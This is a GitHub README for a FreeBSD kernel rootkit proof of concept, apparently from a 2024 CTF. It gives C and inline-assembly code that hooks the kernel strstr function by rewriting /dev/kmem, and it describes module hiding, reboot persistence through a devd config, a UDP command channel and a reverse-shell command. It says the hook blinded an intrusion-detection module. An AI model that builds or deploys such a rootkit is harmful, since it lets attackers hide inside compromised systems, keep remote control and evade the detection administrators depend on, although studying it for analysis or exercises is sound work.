


# rkit

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit  for your exercise

**I do not take any responsibility for usage of this project**

rkit is PoC rootkit for latest freebsd, this rootkit is hooking strstr function in kernel via rewriting kernel memory at run, so it will redirect function at start via **push** **ret** to our kernel function:

```c
        buffer[0] = push_opcode; 
        buffer[1] = ret_bytes[0]; 
        buffer[2] = ret_bytes[1]; 
        buffer[3] = ret_bytes[2]; 
        buffer[4] = ret_bytes[3]; 
        buffer[5] = ret_opcode; 
        if (lseek(fd, offset, SEEK_SET) == (off_t)-1) {
        	close(fd);
        	return;
        }

        if (write(fd, buffer, 6) != 1) {
        	close(fd);
        	return;
        }
```

fd in this case is:

```c
fd = open("/dev/kmem", O_RDWR);
```

this is done in userspace for easier access, but it should be possible in kernel itself too.

## How this work?

First we need to parse kernel /boot/kernel/kernel as elf, from this we can get symbols and addresses, here we find strstr symbol and then we seek to that address in kernel memory /dev/kmem and we will rewrite bytes at start for our push kernel_function; ret; 

When anything call strstr it will now return to our function where we can do some functionality, in our case ignoring some strings. after our functionality we have to return to original place, but since we rewritten first bytes we need to call them from our kernel module as inline assembly and then jump there, also we need to change return address to our function:

```c
/* rewritten bytes
ffffffff80c498d0: 55                            pushq   %rbp
ffffffff80c498d1: 48 89 e5                      movq    %rsp, %rbp
ffffffff80c498d4: 41 57                         pushq   %r15
*/
char *hex_address = "0xffffffff80c498d6"; // strstr address
int (*func_ptr)(void); 

sscanf(hex_address, "%p", (int **)&func_ptr);
void *return_address = &&return_here; 

for (size_t i = 0; i < arraySize; i++) {
        if (!strcmp(stringArray[i], s1) || !strcmp(stringArray[i], s2))
                return NULL; // got match
}

__asm__(
        "pushq %0\n\t"                  // Save return address
        "movq %2, %%rdi\n\t"            // First argument (const char *s1)
        "movq %3, %%rsi\n\t"            // Second argument (const char *s2)
        "pushq %%rbp\n\t"               // Push %rbp onto the stack
        "movq %%rsp, %%rbp\n\t"         // Move the value of %rsp to %rbp
        "pushq %%r15\n\t"               // save r15
        "jmp *%1\n\t"                   // jump to func_ptr
        :
        : "r"(return_address), "r"(func_ptr), "r"(s1), "r"(s2)
        : "memory", "%rbp", "%rsi", "%r15"                      // Clobbered registers
);

return_here:
        __asm__("movq %%rax, %0" : "=r" (result) : : "%rax");
        return result;
```

we can get this strstr address from symbols, from multiple reboots this address did not change. You can get this address with simple modification of helper.c that instead of rewriting bytes on match it will print its address

From my testing not all functions work properly and need to be tested

## Setup

we have custom.c, helper.c and helper.conf

custom.c is our kernel module that contain our modified strstr, helper.c is userspace program that will help with our kernel memory rewriting, and helper.conf is devd conf that we place into /dev/devd/ so our kernel module can notify it and trigger rewriting

## Kernel module

Our kernel module contain udp connector that connects to localhost 1337, here we can send commands for hooking or spawning reverse shell.

Execution flow:

- first we hide ourself from module list
- then we check if helper.conf exists, if not we write it to /etc/devd, then we also write helping script for reverse shell and we reboot
- if we have those files, connector is started in kernel thread
  - this connector infinitely connects to defined address (in our case localhost). I found out problem that when we dont have server open it will crash, this could be fixed in future :)
- then we wait for specific commands:
  - hook strstr - hooks strstr function with our helper
  - add "data" - adds data to array for ignoring in strstr
  - rev ip=127.0.0.1 port=4242 - creates reverse shell to that address and port

Our C2 nc with triggering hook:



Check of bytes at strstr memory address before and after:



I tested this PoC on kernel module i written for searching IOC in network (so simple module that log every ip that create connection and compare it to list of malicious ip), after hooking strstr even when ip should matched it did not trigger message that should inform admin about malicious communication.

This PoC was part of CTF Cybergame 2024